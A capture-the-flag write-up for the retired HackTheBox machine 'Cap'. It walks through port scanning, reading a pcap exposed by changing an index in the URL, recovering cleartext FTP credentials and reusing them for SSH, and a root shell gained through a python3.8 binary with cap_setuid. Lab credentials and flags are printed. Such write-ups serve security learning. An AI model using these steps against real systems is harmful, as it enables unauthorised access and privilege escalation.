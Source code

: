 Title:HTB: Cap
Date: 10-23-2021 11:40
category:security
tags:security, boot2root, HTB, capabilities
meta:security, boot2root, HTB, capabilities

<img class="align-left" src="/media/2021.10/cap_card.png" alt="cap Card" width="262">

This article is a writeup about a retired HacktheBox machine:
[Cap](https://www.hackthebox.eu/home/machines/profile/351) published on
June 5, 2021 by
[InfoSecJack](https://www.hackthebox.eu/home/users/profile/52045).
This box is rated as easy box the user part implies to know a bit about array
indexes and wireshark. The root part is quit easy and implies a binary
capabilities.

<!-- PELICAN_END_SUMMARY -->

# User

## Recon

Let us start as always by a `nmap` scan. Only port 21 (FTP), 22 (SSH) and 80 with a HTTP
service are open.

    :::text
    # Nmap 7.91 scan initiated Sat Jun 19 08:05:17 2021 as: nmap -p- -sSV -A -oN notes.md 10.129.162.82
    Nmap scan report for 10.129.162.82
    Host is up (0.013s latency).
    Not shown: 65532 closed ports
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     vsftpd 3.0.3
    22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
    |   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
    |_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
    80/tcp open  http    gunicorn
    <SNIP>


## FTP

No anonymous connection is available on it.

## Web

This is a server monitoring website. We can access a few technical information
as the result of the `ip a` command.

![Result of ip a command](/media/2021.10/cap_01.png)

We also have access to a "capture and analyze packets" tool which make me think
about a tcpdump or wireshark RCE exploit.

![Packet capture and analyzer](/media/2021.10/cap_02.png)

But this was quit simpler. Notice the "index" in the picture above: 1. Or in
programming language, most table start with the index 0. We just change the URL
to `data/0` and open the pcap with wireshark.

We can see a few FTP frames. The FTP traffic is in clear text, we use the
"follow TCP stream" option from wireshark and get the FTP packets containing a
username and a password.

    :::text
    220 (vsFTPd 3.0.3)
    USER nathan
    331 Please specify the password.
    PASS Buck3tH4TF0RM3!
    230 Login successful.
    SYST
    215 UNIX Type: L8
    PORT 192,168,196,1,212,140
    <SNIP>

We can connect using FTP and get access to Nathan's files but the user is using the same password for his SSH access :S

    :::text
    ┌──(kali㉿kali)-[~]
    └─$ ssh nathan@10.129.162.82
    nathan@10.129.162.82's password: 
    <SNIP>
    nathan@cap:~$ cat user.txt
    881dbf629f65f88eca6c0be9dab5db20


# Root

We quickly check our `sudo` privileges but we do not have any.

The name of the box might be a hint here. We can run a Linux privilege
escalation tool as
[LinPEAS](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS)
or just run the appropriate command available on
[Linux privilege escalation methodologies](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#capabilities).

We quickly found out that `/usr/bin/python3.8` has the `setuid` capabilities
which allow to [make arbitrary manipulations of process UIDs](https://man7.org/linux/man-pages/man7/capabilities.7.html)


    :::text
    nathan@cap:/$ getcap -r / 2> /dev/null
    /usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
    /usr/bin/ping = cap_net_raw+ep
    /usr/bin/traceroute6.iputils = cap_net_raw+ep
    /usr/bin/mtr-packet = cap_net_raw+ep
    /usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep

We just have to run a simple python command either via the python console or in
a oneliner to pop a root shell and grab the flag.

    :::text
    nathan@cap:/$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
    # id
    uid=0(root) gid=1001(nathan) groups=1001(nathan)
    # cat /root/root.txt
    96f9681e3e9831523150b8a56f288a90

# Wrapping up

This was an easy box! I struggle an bit on the "Array index" as I was in the
tcpdump/wireshark rce rabbit hole. Nonetheless a great box for every beginners.

